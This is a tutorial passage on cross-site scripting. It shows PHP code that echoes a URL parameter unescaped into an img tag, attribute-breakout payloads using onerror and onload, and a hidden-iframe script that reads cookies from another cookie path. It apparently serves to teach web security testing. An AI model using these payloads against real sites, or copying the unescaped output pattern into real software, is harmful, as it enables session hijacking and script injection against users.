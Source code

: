 ### DOM xss

This is the hardest type of xss to discover, some tools exist to help. The browsers web inspector will show the result of the DOM creation and dom based javascript manipulation. This output may look entirely different from the original source code as much work can happen during the javascript execution.

## Exploiting xss

Some vulnerable code...

```
<html>
  <head></head>
  <body>
    <img src="logo.png" alt="<?= $_GET['name'] ?>" />
  </body>
</html>
```

The name parameter is eventually rendered inside the alt paramter of the img tag. To "break out" of the alt tag and allow arbitrary code the payload can "close out" the img tag first...

```
http://victim.com/index.php?name="><img src="x" onerror="alert(1)"
```

Which should render...

```
<html>
  <head></head>
  <body>
    <img src="logo.png" alt="" /><img src="x" onerror="alert(1)">
  </body>
</html>
```

Another payload could be...

```
" onload="alert(String.fromCharCode(88,83,83))"
```

## Browser inconsistencies

xss payloads designed to work for one browser may not work in another. In effect you may have to create cross-browser compatible exploits or know the browser your targeting in advance.

## Cookie theft

Cookie theft is limited by SOP (see iframe workaround below).

```
<!-- reading cookies from a different cookie path using an iframe -->
<script>
function cookiepath(path) {
  for (var i = 0; i <window.frames.length; i++) {
    frameURL = window.frames[i].location.toString();
    if (frameURL.indexOf(path) > -1)
      alert(window.frames[i].document.cookie)
  }
}
</script>
<iframe onload="cookiepath('/path1/')" style="display:none;" src="/path1/index.php"></iframe>
```

